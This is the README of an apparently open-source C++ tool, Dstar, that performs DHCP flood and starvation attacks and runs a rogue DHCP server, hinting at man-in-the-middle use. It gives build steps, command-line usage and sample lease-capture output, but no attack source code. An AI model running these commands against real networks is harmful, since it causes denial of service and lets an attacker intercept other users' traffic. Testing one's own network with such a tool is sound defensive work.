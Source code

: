 ![](https://img.shields.io/badge/Language-C++-orange.svg)
![](https://img.shields.io/badge/version-1.0.0-green.svg)
[![GPLv3 License](https://img.shields.io/badge/License-GPLv3-blue.svg)](http://www.gnu.org/licenses/gpl-3.0.html)

# Dstar :hammer:
This tool implement various DHCP attacks and can be used to make experiments and test on __your network__!

Supported features:
- Flood -> Flood DHCP server with large amount of DHCP discover messages (this attack not acquire addresses!)
- Starvation -> Try to acquire all addresses in DHCP pool, you can use this option with a rogue DHCP server... MITM? :smirk:
- Built-in rogue DHCP server

# Setting up dstar #

First of all getting the code from repository:

    $ git clone https://github.com/jacopodl/dstar

Compile it with followings command:

    $ cd dstar
    $ git submodule init && git submodule update
    $ cmake .
    $ make

Or if you are very busy:

    $ ./build.sh

# Usage example #
Flood DHCP server with discover messages:

    $ sudo ./dstar %interface% --flood

Exhaust DHCP pool and release all addresses on exit:

    $ sudo ./dstar %interface% --starvation

without release addresses:

    $ sudo ./dstar %interface% --starvation --no-release
    
Setting up rogue DHCP server with the stolen addresses:

    $ sudo ./dstar %interface% --starvation --server

Getting help with:

    $ ./dstar --help
    
# Action snapshot :camera:

    $ sudo ./dstar %interface% --starvation

    @@@@@@@    @@@@@@   @@@@@@@   @@@@@@   @@@@@@@
    @@@@@@@@  @@@@@@@   @@@@@@@  @@@@@@@@  @@@@@@@@
    @@!  @@@  !@@         @@!    @@!  @@@  @@!  @@@
    !@!  @!@  !@!         !@!    !@!  @!@  !@!  @!@
    @!@  !@!  !!@@!!      @!!    @!@!@!@!  @!@!!@!
    !@!  !!!   !!@!!!     !!!    !!!@!!!!  !!@!@!
    !!:  !!!       !:!    !!:    !!:  !!!  !!: :!!
    :!:  !:!      !:!     :!:    :!:  !:!  :!:  !:!
     :::: ::  :::: ::      ::    ::   :::  ::   :::
    :: :  :   :: : :       :      :   : :   :   : :
                                                     vX.x.x
    
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.99 - MAC:52:c5:b9:35:0c:42 lease(s):21600
    
    [<---] DHCP DISCOVER
    [--->] DHCP OFFER
    [<---] DHCP REQUEST
    [--->V] DHCP ACK
    	Ip:192.168.1.118 - MAC:12:3c:09:28:ac:cb lease(s):21600
    
    [<---] DHCP DISCOVER
    ^CStopping...
    Releasing addresses...
    All done!

# Possible improvements: #
- Multithread capability
- DHCPv6
